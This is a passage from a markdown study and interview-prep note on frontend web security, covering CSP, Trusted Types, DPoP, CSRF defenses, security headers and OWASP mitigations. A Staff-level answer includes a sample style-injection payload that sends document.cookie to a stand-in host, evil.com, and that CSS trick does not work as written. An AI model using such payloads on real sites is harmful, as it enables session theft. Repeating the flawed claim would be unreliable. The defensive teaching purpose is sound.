<!-- Selectively allow features back -->
<iframe sandbox="allow-scripts allow-forms" src="..."></iframe>

<!-- DANGER: allowing scripts AND same-origin defeats the sandbox for your origin -->
<iframe sandbox="allow-scripts allow-same-origin" src="/your-page"></iframe>
```

##### How — COOP / COEP for Origin Isolation
```http
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
Cross-Origin-Resource-Policy: same-origin
```
Together these enable "cross-origin isolated" mode, which unlocks `SharedArrayBuffer` and high-resolution timers (used for performance APIs and WebAssembly threading).

##### When
- `sandbox` on every untrusted embed (user-uploaded content, third-party widgets)
- COOP/COEP/CORP if you ship anything performance-critical (WebAssembly, audio/video processing); also tightens click-jacking defense

##### Trade-offs
<span style="color: #ff4444;">`allow-scripts allow-same-origin` together is dangerous</span> — sandbox doesn't restrict what scripts can do once they share your origin. Only use one or the other. <span style="color: #ffbb33;">COEP breaks third-party widgets</span> that don't set CORP — gradual rollout via Report-Only.

---

#### `Permissions-Policy` (formerly Feature-Policy)

##### What
HTTP header that disables powerful browser features (camera, microphone, geolocation, USB, payment) at the document level. Replaces the deprecated `Feature-Policy`.

##### How
```http
Permissions-Policy:
  camera=(),
  microphone=(),
  geolocation=(self),
  payment=(self "https://checkout.example.com"),
  usb=(),
  interest-cohort=()
```

`()` = disable; `(self)` = allow only same-origin; `(self "https://x.com")` = allow same-origin and explicit list.

##### When
Every app. Even if you don't use the camera, disabling it means a compromised script can't access it either.

##### Trade-offs
<span style="color: #ffbb33;">Common features to evaluate</span>: `interest-cohort=()` opts out of Google's FLoC/Topics tracking; `payment=()` blocks Payment Request API misuse; `display-capture=()` blocks `getDisplayMedia` for screen recording.

---

#### `Referrer-Policy` & Information Leakage

##### What
Controls what's in the `Referer` header when your page links to another. Default leaks the full URL — including query parameters that might contain auth tokens, search terms, or user IDs.

##### How
```http
Referrer-Policy: strict-origin-when-cross-origin
```

The 2026 default in most browsers. Sends:
- Full URL on same-origin requests
- Just the origin (`https://example.com`) on cross-origin HTTPS→HTTPS
- Nothing on HTTPS→HTTP

##### When
Always set explicitly. Tighter options:
- `no-referrer` — never send Referer (paranoid)
- `same-origin` — only send to same origin
- `strict-origin` — send only origin, never on downgrade

##### Trade-offs
<span style="color: #ff4444;">Default `Referrer-Policy: no-referrer-when-downgrade`</span> still leaks full URLs cross-origin on HTTPS→HTTPS. Always set `strict-origin-when-cross-origin` or tighter.

---

### Concept Group 5: OWASP Top 10 — Frontend View

#### A03 Injection (XSS) & A07 ID/Auth Failures

##### What
The two OWASP categories that hit frontend hardest:
- **A03 Injection** — XSS subsumed under "injection" in 2021+ taxonomy
- **A07 Identification and Authentication Failures** — token storage, session handling, MFA gaps

##### Frontend Mitigations
- **A03**: strict CSP + Trusted Types + DOMPurify + Angular default sanitization (covered in §1, §2)
- **A07**:
  - Don't store tokens in `localStorage` (XSS-readable). Use HttpOnly cookies or in-memory short-lived state.
  - Use BFF cookie pattern for browser apps (covered in [[Authentication-Authorization]])
  - Implement DPoP for cryptographic token binding (covered in [[Security-CSP-DPoP]])
  - Logout clears all client state including IndexedDB, ServiceWorker cache, BroadcastChannel listeners

---

#### A02 Cryptographic Failures (Frontend Storage)

##### What
"Sensitive data exposure," renamed to focus on the cause — using bad crypto or storing data insecurely client-side.

##### Frontend Cases
- **`localStorage` for tokens** — XSS reads it; no encryption helps because the same XSS reads the key
- **Hardcoded secrets in JS bundles** — every API key, AWS access key shipped to the browser is public
- **Client-side encryption with hardcoded keys** — security theater
- **Sensitive data in URL** — `?token=abc` ends up in browser history, server logs, Referer headers

##### Mitigations
- HttpOnly cookies for session tokens
- Public keys in browser, private keys in `WebCrypto.generateKey({ extractable: false })`
- Sensitive data via authenticated API calls; never put in URL
- Secrets in environment-specific server config; never in source code

---

#### A05 Security Misconfiguration (Headers, CORS)

##### What
Default-everything-on, weak headers, permissive CORS — the most common breach cause.

##### The Frontend Header Audit
```http
Content-Security-Policy: <strict>
Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: <restrictive>
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
X-Frame-Options: DENY    (legacy; use frame-ancestors in CSP)
```

Test with [Mozilla Observatory](https://observatory.mozilla.org/) and [securityheaders.com](https://securityheaders.com/).

##### Trade-offs
<span style="color: #ffbb33;">HSTS preload is irreversible</span> — once on the preload list, browsers force HTTPS for years even after you turn it off. Be sure before submitting.

---

#### A06 Vulnerable Components (Supply Chain)

##### What
Third-party packages with known CVEs — and the broader software supply chain attack surface (typosquatting, compromised maintainer accounts, dependency confusion).

##### Frontend Reality
- An average npm-based SPA has 1000+ transitive dependencies
- Even `lodash`, `react`, `angular` have had vulnerabilities; subtler libs more often
- The npm ecosystem has seen multiple high-profile compromises (event-stream, ua-parser-js)

##### Mitigations
- `npm audit` / `pnpm audit` in CI; fail on high+ severity
- Pin versions (lockfile committed); use `npm ci` not `npm install`
- Subresource Integrity for CDN-loaded scripts
- Consider private npm registries with curated allowlists for high-security projects
- SAST tools (Snyk, Dependabot, Renovate) for automated patches
- Audit `postinstall` scripts of new dependencies (a common attack vector)

##### Trade-offs
<span style="color: #ff4444;">Auto-merge dependabot is a footgun</span> — a compromised package gets deployed before review. Manual review for security-relevant deps; auto-merge for tests-only deps.

---

## Architecture & Data Flow



---

## Real-World Examples

### Example Sourcing Rules

Examples follow the priority order: actual `tai-portal` code where available, then realistic fitting examples, then standalone for concepts not present.

---

### 1. Strict CSP for an Angular SPA

🔧 Fits `tai-portal`: production CSP for portal-web

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'strict-dynamic' 'nonce-{{request-nonce}}';
  style-src 'self';
  img-src 'self' data: https://avatars.tai-portal.com;
  font-src 'self';
  connect-src 'self' wss://realtime.tai-portal.com https://api.tai-portal.com;
  frame-ancestors 'none';
  form-action 'self';
  base-uri 'self';
  object-src 'none';
  require-trusted-types-for 'script';
  trusted-types tai-security-policy default;
  report-to csp-endpoint;

Reporting-Endpoints: csp-endpoint="https://api.tai-portal.com/csp-reports"
```

**Why each piece:** `'strict-dynamic'` allows the Angular bootstrap to load chunks; `style-src 'self'` (no `'unsafe-inline'`) is what zero-violation requires; `frame-ancestors 'none'` blocks click-jacking; `require-trusted-types-for 'script'` enforces sink protection.

---

### 2. Trusted Types Policy + DOMPurify

📍 Pattern from `tai-portal`: `libs/ui/design-system/src/lib/design-system/secure-input/trusted-types.service.ts`

```typescript
@Injectable({ providedIn: 'root' })
export class TrustedTypesService {
  private policy: TrustedTypePolicy | undefined;

  constructor() {
    if ('trustedTypes' in window && trustedTypes.createPolicy) {
      try {
        this.policy = trustedTypes.createPolicy('tai-security-policy', {
          createHTML: (input: string) =>
            DOMPurify.sanitize(input, {
              RETURN_TRUSTED_TYPE: true,
              ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'br', 'p', 'span'],
              ALLOWED_ATTR: ['href', 'title', 'class'],
              ALLOWED_URI_REGEXP: /^(?:https?|mailto):/i,
            }),
        });
      } catch {
        this.policy = trustedTypes.getPolicy('tai-security-policy');   // HMR fallback
      }
    }
  }

  createTrustedHTML(html: string): TrustedHTML | string {
    return this.policy ? this.policy.createHTML(html) : html;
  }
}
```

**Pattern shown:** the only path to set `[innerHTML]` is through this service. The CSP `require-trusted-types-for 'script'` directive ensures any other path throws at runtime.

---

### 3. Angular DPoP Interceptor (XSS-Surviving Auth)

📍 From `tai-portal`: `apps/portal-web/src/app/dpop.interceptor.ts` (excerpt)

The full DPoP design is in [[Security-CSP-DPoP]]. Here's the frontend takeaway: even if XSS bypasses CSP and Trusted Types, the access token alone is useless without the WebCrypto private key.

```typescript
const executeWithDPoP = (nonce?: string) =>
  from(dpopService.getDPoPHeader(req.method, req.url, accessToken, nonce)).pipe(
    switchMap(header => next(req.clone({ headers: req.headers.set('DPoP', header) })))
  );

return executeWithDPoP().pipe(
  catchError((err: HttpErrorResponse) => {
    if (err.status === 401 && err.headers.get('DPoP-Nonce')) {
      return executeWithDPoP(err.headers.get('DPoP-Nonce')!);
    }
    return throwError(() => err);
  })
);
```

**Why this is a security layer:** the private key is generated with `extractable: false`. Even XSS can't `crypto.subtle.exportKey()` it. Stolen access token + no key = no replay.

---

### 4. CSRF Defense Stack (`tai-portal`)

🔧 Fits `tai-portal`:

```typescript
// 1. SameSite cookie at issuance (server)
//    Set-Cookie: session=...; HttpOnly; Secure; SameSite=Strict

// 2. Angular's automatic XSRF interception for cookie-auth WS endpoints
provideHttpClient(
  withXsrfConfiguration({
    cookieName: 'XSRF-TOKEN',
    headerName: 'X-XSRF-TOKEN',
  })
);

// 3. DPoP for REST API (sender-constrained, doubles as CSRF defense)
provideHttpClient(withInterceptors([dpopInterceptor]));
```

**Layers:** SameSite=Strict cookie blocks cross-origin attacks at the browser level. Custom `X-XSRF-TOKEN` header requires a CORS preflight that won't pass for evil.com. DPoP adds cryptographic per-request proof on REST.

---

### 5. CSP Bypass Audit Checklist

📦 Standalone:

```bash
# 1. Run Google's CSP Evaluator
curl -I https://yourapp.com | grep -i content-security
# Paste the policy into https://csp-evaluator.withgoogle.com/

# 2. Check for the 5 classic bypasses
echo "Checking for JSONP endpoints on allow-listed origins..."
# Manual: list every host in script-src, search for JSONP routes

echo "Checking for missing base-uri..."
curl -I https://yourapp.com | grep -i 'base-uri' || echo "MISSING — add base-uri 'self'"

echo "Checking for data: in script-src..."
curl -I https://yourapp.com | grep 'script-src.*data:' && echo "DANGEROUS"

echo "Checking for wildcard hosts..."
curl -I https://yourapp.com | grep 'script-src.*\*' && echo "REVIEW WILDCARDS"

echo "Checking file-upload origins..."
# Manual: are user uploads served from your main origin? Move to a separate origin.
```

---

### 6. Permissions-Policy for a Greenfield App

📦 Standalone:

```http
Permissions-Policy:
  accelerometer=(),
  ambient-light-sensor=(),
  camera=(),
  display-capture=(),
  encrypted-media=(),
  geolocation=(),
  gyroscope=(),
  magnetometer=(),
  microphone=(),
  midi=(),
  payment=(),
  picture-in-picture=(),
  publickey-credentials-get=(self),
  screen-wake-lock=(),
  sync-xhr=(),
  usb=(),
  xr-spatial-tracking=(),
  interest-cohort=()
```

**Pattern shown:** disable everything by default; opt back in per-feature with explicit allow-list. `interest-cohort=()` opts out of FLoC/Topics; `publickey-credentials-get=(self)` allows WebAuthn on same-origin only.

---

## Comparison Tables

### CSP Strategies — `'unsafe-inline'` vs Hash vs Nonce vs `strict-dynamic`

| Strategy | Inline Allowed? | Setup Cost | Bypass Risk | Use For |
|---|---|---|---|---|
| `'unsafe-inline'` | ✅ all inline | none | <span style="color: #ff4444;">very high</span> | <span style="color: #ff4444;">never in production</span> |
| Hash | only matching | high (build-time hashing) | low (if hashes are tight) | Static SSR pages |
| Nonce | only matching | medium (per-request gen) | low | Server-rendered apps |
| `'strict-dynamic'` + nonce | trusted-bootstrapped | medium | very low | <span style="color: #00C851;">SPAs (default)</span> |
| No inline (zero-violation) | none | high (architecture) | <span style="color: #00C851;">eliminated</span> | <span style="color: #00C851;">SWBC fintech</span> |

### XSS Type vs Defense

| Type | Server-Side Defense | Client-Side Defense |
|---|---|---|
| **Stored** | Input validation + output encoding on render | Framework auto-encoding + Trusted Types |
| **Reflected** | Output encoding on render | Framework auto-encoding + URL validation |
| **DOM-based** | <span style="color: #ff4444;">Server can't help</span> | Trusted Types + DOMPurify (mandatory) |

### CSRF Defense Layers

| Defense | Strength | Compatibility | Use For |
|---|---|---|---|
| `SameSite=Strict` cookie | Very strong | Modern browsers | <span style="color: #00C851;">Default first layer</span> |
| `SameSite=Lax` cookie | Strong | Modern browsers | Apps needing deep-link UX |
| Double-submit cookie + custom header | Strong | Universal | SPAs (Angular default) |
| Synchronizer token | Strong | Universal (server-state) | Server-rendered HTML |
| DPoP per-request signature | Very strong | Need WebCrypto | <span style="color: #00C851;">REST APIs (tai-portal)</span> |
| Origin / Sec-Fetch-Site check | Defense-in-depth | Modern browsers | Server-side guard |

### Cookie Storage vs Other Token Stores

| Store | XSS Readable? | CSRF Vulnerable? | Use For |
|---|---|---|---|
| `localStorage` | ✅ <span style="color: #ff4444;">disaster</span> | ❌ | <span style="color: #ff4444;">never for tokens</span> |
| `sessionStorage` | ✅ <span style="color: #ff4444;">disaster</span> | ❌ | same as above |
| Memory (JS variable) | ✅ if XSS but lost on reload | ❌ | Short-lived state |
| Cookie (HttpOnly + SameSite) | ❌ | depends on SameSite | <span style="color: #00C851;">Session tokens</span> |
| WebCrypto non-extractable key | ❌ | N/A (not a credential) | <span style="color: #00C851;">DPoP private key</span> |

---

## Interview Q&A

### L1: Junior Knowledge

#### L1: What is CSP and what does `'unsafe-inline'` do?
**Difficulty:** L1 (Junior)

**Question:** Explain Content Security Policy in one sentence and why `'unsafe-inline'` is a problem.

**Answer:** <span style="color: #33b5e5; font-weight: bold;">CSP</span> is an HTTP header that tells the browser which sources of scripts, styles, and other resources are allowed to load and execute on your page. Adding `'unsafe-inline'` to `script-src` allows any inline `<script>` tag or `onclick="..."` attribute to run, which means the entire CSP becomes useless against XSS — an attacker who injects a script tag is allowed to execute it. <span style="color: #00C851; font-weight: bold;">The 2026 standard</span> uses nonces or `'strict-dynamic'` instead.

---

#### L1: Difference between CORS and CSP?
**Difficulty:** L1

**Answer:** CORS protects the **server** by telling the browser which external sites are allowed to read the server's responses. CSP protects the **client** by telling the browser which external sites are allowed to load scripts, styles, and other resources INTO the current page. Memory aid: CORS is "who can come in," CSP is "what can run inside."

---

#### L1: What does `SameSite=Strict` on a cookie do?
**Difficulty:** L1

**Answer:** It tells the browser to send the cookie ONLY when the request originates from the same site as the cookie's domain. A POST or fetch from `evil.com` to `yourapp.com` will not include the cookie. This is the modern primary defense against CSRF attacks.

---

### L2: Mid-Level Knowledge

#### L2: Walk through the 3 XSS types and their defenses.
**Difficulty:** L2

**Answer:**

- **Stored** — payload saved to the database; every viewer runs it. Defense: server-side input validation + output encoding on render + framework auto-escaping.
- **Reflected** — payload in URL or form; victim clicks a crafted link. Defense: output encoding on render — server input validation alone is insufficient because the URL is attacker-controlled by definition.
- **DOM-based** — payload never reaches the server (e.g., URL fragment after `#`); pure browser-side execution via dangerous sinks like `innerHTML`. Defense: <span style="color: #00C851;">Trusted Types is the only complete fix</span>; CSP catches loaded scripts but not parsed-from-string assignments.

The forcing function for senior-level signal: <span style="color: #ffbb33;">DOM-based XSS is invisible to server-side WAFs</span> — the malicious string never appears in any HTTP request, so signature-based defenses can't see it.

---

#### L2: Hash vs nonce vs `strict-dynamic` — when to pick each?
**Difficulty:** L2

**Answer:**

- **Hash** allows specific inline content by SHA-256 of its content. Use for static, build-time-known inline (rare in SPAs; common in old SSR templates).
- **Nonce** is a fresh random per response that the server injects into both the CSP header and the matching `<script>` tag. Use for server-rendered apps (Razor, Next.js) where the template engine can produce both.
- **`strict-dynamic`** says "trust whatever the nonce-marked or hash-marked script loads next." Use for SPAs that load chunks dynamically — Angular, React, Vite. The bootstrap script is allow-listed; everything it loads inherits trust.

The tai-portal/SWBC approach goes further: <span style="color: #00C851;">no inline at all</span>. All scripts and styles ship as bundled files served from `'self'`. That requires architectural discipline — no Angular Material's CDK Overlay (injects inline styles), no runtime CSS-in-JS, no third-party widgets that inject style tags. The reward is a CSP with `script-src 'self'; style-src 'self';` — mathematically simpler, no nonce/hash/eval headaches.

---

#### L2: Why is `localStorage` a bad place for tokens?
**Difficulty:** L2

**Answer:** Any JavaScript on your origin can read `localStorage` synchronously via `localStorage.getItem('token')`. If an XSS payload runs anywhere — a single compromised npm dependency, a CSP gap, a `bypassSecurityTrustHtml` misuse — it has full access. There is no escape: encrypting the token doesn't help because the same XSS reads the encryption key.

The 2026 alternatives:
- **HttpOnly cookies** — JavaScript cannot read them, period. Combined with `SameSite=Strict` and `Secure`, they're the recommended session token store.
- **In-memory only** — short-lived state lost on reload; suitable for one-screen flows.
- **WebCrypto non-extractable keys** — for DPoP and similar; the private key never enters JS.

---

#### L2: Explain `frame-ancestors` and how it relates to `X-Frame-Options`.
**Difficulty:** L2

**Answer:** `X-Frame-Options: DENY` is the legacy header that prevents your page from being loaded in any `<iframe>` — defending against click-jacking. The modern replacement is the CSP directive `frame-ancestors 'none'`. CSP's version is more powerful (it supports specific allow-listed origins, multiple values, source expressions) and is the only authoritative version in 2026 — modern browsers prefer `frame-ancestors` when both are set. Set both for defense-in-depth on legacy browsers, or just `frame-ancestors` for new apps.

---

### L3: Senior Knowledge

#### L3: Walk me through how SWBC achieved zero-violation CSP.
**Difficulty:** L3 (Senior)

**Question:** What architectural decisions enabled `script-src 'self'; style-src 'self';` with no nonces, no `'unsafe-inline'`, no `'unsafe-eval'`?

**Answer:** Four-part architectural commitment, each with a real cost:

1. **Replaced Angular Material with custom design-system components.** Material's CDK Overlay positions dropdowns/dialogs by injecting `style="transform: ..."` on the host element at runtime. That requires `style-src 'unsafe-inline'`. Custom components (`secure-input`, `datatable`, `transfer-list`) achieve the same UX using class-based positioning — Tailwind utilities and pre-compiled SCSS, both shipped from `'self'`.

2. **Tailwind v4 (build-time CSS).** All utilities compile to a static CSS file. No runtime style injection. No CSS-in-JS. Theme switching uses `[data-theme]` attribute swaps that flip CSS custom properties — no inline `style=`.

3. **Trusted Types policy + DOMPurify** for any `[innerHTML]` use. The policy is registered once globally; `[innerHTML]` writes that don't go through it throw a `TypeError` at runtime.

4. **No `bypassSecurityTrustHtml` calls** — banned by lint rule. Every dynamic HTML insertion is reviewed.

The trade-off paid: no Angular Material, no `mat-table`, no `mat-datepicker`. SWBC built ~30 custom components in Storybook (3-tier atomic design — atoms, molecules, organisms) at significant up-front cost. The win: an XSS class of vulnerability is mathematically eliminated. There is no inline-script execution path. There is no inline-style execution path. Even if a developer wrote `el.innerHTML = userInput`, Trusted Types throws before the parser sees the string.

The interview probe to expect: <span style="color: #ffbb33;">"isn't that overkill?"</span> Answer: for fintech/healthcare data sensitivity, no — and the discipline forced a better architecture (clean Tailwind + Storybook design system) as a side effect.

---

#### L3: Why isn't CORS a CSRF defense?
**Difficulty:** L3

**Answer:** Common misunderstanding. CORS controls whether JavaScript on origin A can **read the response** from origin B. It does not control whether the request is **sent**. For "simple requests" (GET, POST with `application/x-www-form-urlencoded`), the browser sends the request to origin B, server processes it (and any state-change happens), and only THEN does CORS hide the response from origin A's JavaScript. The damage is already done.

True CSRF defenses:
- **`SameSite=Strict` cookies** — cookie not sent on cross-origin requests at all
- **CSRF tokens** (synchronizer or double-submit) — server requires a value the attacker can't read or guess
- **Custom header requirement** — forcing a header like `X-XSRF-TOKEN` triggers a CORS preflight; the preflight fails for evil.com → request never sent
- **Origin / Sec-Fetch-Site validation** — server rejects requests with the wrong `Origin` header

CORS is sometimes a CSRF accidental ally for non-simple requests (preflight required), but it was designed for read protection, not write protection. Always pair with `SameSite` and tokens.

---

#### L3: Walk me through a complete CSP rollout plan for a legacy app.
**Difficulty:** L3

**Answer:**

**Phase 1 — Audit (1-2 weeks).**
Catalog every external script source, every inline script, every inline style, every `eval`/`Function` call, every `innerHTML` write. Tools: Chrome DevTools → Console (warnings), grep the codebase, list all CDN dependencies. Output: a target policy.

**Phase 2 — Report-Only deployment (2-4 weeks).**
Deploy `Content-Security-Policy-Report-Only` with the target policy. Configure a reporting endpoint (`Reporting-Endpoints` + `report-to` directive). Collect violations in production traffic. Filter out browser-extension noise (`chrome-extension://` source files). Output: a violation list per page.

**Phase 3 — Remediate (timeline depends on app size).**
For each violation type:
- Inline `<script>` → move to external file or use nonce/hash
- Inline `style=` attributes → migrate to classes
- `eval()` / `new Function()` → refactor (these are usually template engines or feature flags; replace)
- Third-party widgets that need `'unsafe-inline'` → either accept the relaxation or replace the widget
- DOM XSS sinks (`innerHTML`) → wrap in Trusted Types policy with DOMPurify

**Phase 4 — Tighten progressively.**
Start with `Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'nonce-{random}';` (allow inline AND nonce — works during transition). Once nonces are everywhere, drop `'unsafe-inline'` (modern browsers ignore it when a nonce is present). Then add `'strict-dynamic'`. Then layer Trusted Types in Report-Only. Finally enforce.

**Phase 5 — Maintenance.**
Lint rule banning new `eval`, `innerHTML`, inline style. CI step that fails if CSP header is missing or weakens. Quarterly review of allow-listed CDN hosts.

The senior judgment call: for a 5-year-old app with hundreds of inline event handlers, full strict CSP may take 6-12 months. Be realistic; ship incremental wins.

---

#### L3: How do you defend a financial-transaction form end-to-end?
**Difficulty:** L3

**Answer:** Layered, no single defense:

1. **Transport** — HTTPS only, HSTS preload, TLS 1.3
2. **Auth** — short-lived access token + DPoP per-request signature (covered in [[Security-CSP-DPoP]])
3. **Cookie** — session cookie HttpOnly + Secure + `SameSite=Strict`
4. **CSRF** — DPoP IS the CSRF defense for REST; double-submit token as belt-and-suspenders
5. **CSP** — strict; no inline; Trusted Types; `frame-ancestors 'none'` to prevent click-jacking
6. **Input validation** — server-side type-checking (decimal precision for currency, allow-list of accounts)
7. **Server-side authorization** — claim-based policy (`RequireClaim("can_initiate_wire")`)
8. **Velocity check** — rate-limit per user; flag anomalies (size, time-of-day, recipient never seen before)
9. **MFA step-up** — re-prompt for biometric/OTP for amounts above threshold; don't trust the existing session for high-value
10. **Audit log** — write to immutable log before commit; include IP, user-agent, DPoP key thumbprint
11. **Notification** — push to user's other channel (SMS/email) on submission; out-of-band confirmation
12. **Reversal window** — soft-delete the transaction for N hours; provide one-click cancel UX

The senior signal: knowing that "CSP + auth" alone is insufficient for a wire-transfer button. The attack model includes session hijack, device theft, social engineering, account takeover via password reset. Defense-in-depth means assuming any single layer can fail.

---

### Staff: System Architecture

#### Staff: Design a frontend security architecture for a multi-tenant healthcare SaaS subject to HIPAA + SOC 2.

**Difficulty:** Staff

**Answer:**

**Constraints to clarify:**
- Browser-only or also mobile native?
- Federated identity (org SSO) or self-managed accounts?
- PHI rendered to the browser, or only IDs (claim check pattern)?
- Compliance scope — HITRUST, FedRAMP, state regulations?

**Proposed architecture:**

1. **Authentication layer** — OIDC + OAuth 2.1 with PKCE; BFF cookie pattern; DPoP for all REST API calls (FAPI 2.0-grade per-request proof of possession). Sovereign IdP for tenant data isolation (no third-party identity provider holding PHI). MFA mandatory; WebAuthn preferred.

2. **Token storage** — HttpOnly + Secure + SameSite=Strict cookies. WebCrypto non-extractable keys for DPoP. Zero `localStorage` usage; zero JS-readable secrets.

3. **CSP** — strict, with `'strict-dynamic'` + nonces; `require-trusted-types-for 'script'` enforced. `frame-ancestors 'none'`. CSP violations logged to SIEM.

4. **Tenant isolation** — every API call carries tenant claim; server-side EF Core global query filter enforces; SignalR Groups keyed by tenant claim. Frontend never accepts tenant ID from URL or local state — always derived from authenticated session claim.

5. **Claim Check pattern** for real-time push (covered in [[Real-Time UI Patterns]]) — WebSocket carries only event IDs; PHI fetched via authenticated REST. Limits the attack surface of the WebSocket transport.

6. **PHI rendering** — sanitize-on-input AND sanitize-on-output for any user-supplied medical notes. Trusted Types policy with DOMPurify configured for clinical-data context (allow basic formatting, ban images/scripts/iframes/SVG).

7. **Audit trail** — every PHI read logs to immutable storage with user, tenant, timestamp, accessed record. Frontend never short-circuits this — always goes through the API.

8. **Session controls** — short access tokens (5-15 min); refresh tokens revocable from admin UI; auto-logout on idle (configurable per tenant; 5 min default for clinical environments); session bound to device fingerprint.

9. **Browser surface hardening** — Permissions-Policy disables camera/microphone/geolocation by default; COOP/COEP/CORP for origin isolation; SRI on every external dependency.

10. **Supply chain** — private npm registry with allow-listed packages; Snyk in CI failing on high+ CVEs; manual review of any new dependency; lockfile committed; weekly Renovate PRs auto-merged for tests-only changes.

11. **Compliance instrumentation** — CSP violation reports → SIEM; DPoP failures → alerted (potential token theft); failed login attempts → rate-limited and logged; PHI access logs → exported daily to compliance archive.

12. **Incident response** — feature flag system to instantly disable any client-side feature; emergency CSP tightening that can ship without waiting for a build (header-only deployment); session-revocation broadcast via Redis pub/sub.



**Evolution path:**
- Phase 1: lock down CSP, deploy Trusted Types, switch to BFF cookies — 2 months
- Phase 2: DPoP rollout per-route — 3 months
- Phase 3: automated compliance reporting + SIEM integration — 3 months
- Phase 4: red-team exercise to validate the model — 1 month

**Trade-offs accepted:**
- <span style="color: #ffbb33;">High up-front cost</span> — custom design system, no third-party widgets that violate CSP
- <span style="color: #ffbb33;">Browser support burden</span> — Trusted Types on Firefox requires fallback path
- <span style="color: #00C851;">Elimination of XSS as a class</span> — the math, not the convention, prevents it
- <span style="color: #00C851;">SOC 2 Type II evidence stream</span> — every layer produces audit logs for compliance assessor

---

#### Staff: A junior dev wants to add a third-party widget that injects inline styles. Walk through the security review.

**Difficulty:** Staff

**Answer:**

**Step 1 — Understand the request.** What does the widget do? Is it core functionality (analytics, payment processor) or a nice-to-have (animated icon library)? Can the same UX be achieved with first-party code?

**Step 2 — Audit the widget.**
- Inspect its bundle: does it `eval`? Does it write to `innerHTML`? Does it inject `<style>` tags?
- Check its origin: is it served from a domain you control? A CDN? A vendor's domain?
- Check its supply chain: does it pull additional scripts dynamically? Are those scripts loaded from the same origin or a different one?
- Check its history: does it have CVEs? Recent maintainer changes? Known compromise events?

**Step 3 — Map to CSP impact.**
If the widget injects inline styles → requires `style-src 'unsafe-inline'`. Quantify the loss: a malicious script can now inject `<style>body { background: url('https://evil.com/?cookie='+document.cookie) }` and exfiltrate data. CSS injection IS data exfiltration when `unsafe-inline` is allowed.

**Step 4 — Propose alternatives.**
- Build a first-party equivalent (cost: dev time)
- Find a CSP-compliant alternative (cost: feature parity)
- Sandbox the widget in an iframe with restricted CSP (cost: integration complexity, postMessage protocol)
- Accept the risk with mitigations (CSP only relaxed on a specific subdomain; the main app stays strict)

**Step 5 — If accepted, design the relaxation surgically.**
- Don't relax site-wide — relax only on the page that needs the widget
- Use `Content-Security-Policy` per-route via reverse-proxy headers
- Add monitoring: log every script-src violation; alert if violations from this page exceed baseline (indicates widget compromise)
- Quarterly review: is the widget still in use? If not, remove the relaxation.

**Step 6 — Document.**
Threat model entry: "X widget required `'unsafe-inline'` on /Y route. Decision: accept. Mitigations: sandbox in iframe, monitor violations. Reviewer: <person>. Date: <date>. Re-review: <date+90d>."

The senior judgment: <span style="color: #ff4444;">"we'll just add it for now"</span> is how organizations end up with `script-src *` after 5 years of accumulated tactical decisions. Every CSP relaxation is a permanent attack surface increase unless explicitly time-boxed and reviewed.

---

## Cross-References

- [[Security-CSP-DPoP]] — Deeper DPoP implementation, gateway trust middleware, full FAPI 2.0 zero-trust stack
- [[Authentication-Authorization]] — OIDC/OAuth 2.1, BFF cookie pattern, sovereign IdP architecture
- [[CSS-Styling]] — Why Tailwind plays nice with strict CSP; why Material's CDK Overlay doesn't
- [[Angular-Core]] — Built-in sanitization, `SecurityContext`, `bypassSecurityTrust*` audit
- [[Real-Time UI Patterns]] — Claim Check pattern for minimizing PHI/PII over WebSocket
- [[Testing-Frontend]] — Security regression tests, CSP-in-CI, npm audit gate

---

## Further Reading

- [MDN: Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [W3C: Trusted Types](https://w3c.github.io/webappsec-trusted-types/dist/spec/)
- [DOMPurify GitHub](https://github.com/cure53/DOMPurify) — README has the security-critical configuration options
- [OWASP Top 10 (2021)](https://owasp.org/Top10/) — current taxonomy
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Mozilla Observatory](https://observatory.mozilla.org/) — automated frontend security audit
- [securityheaders.com](https://securityheaders.com/) — header grading
- [web.dev: Strict CSP](https://web.dev/articles/strict-csp) — the canonical 2026 guide

---

*Last updated: 2026-04-29*
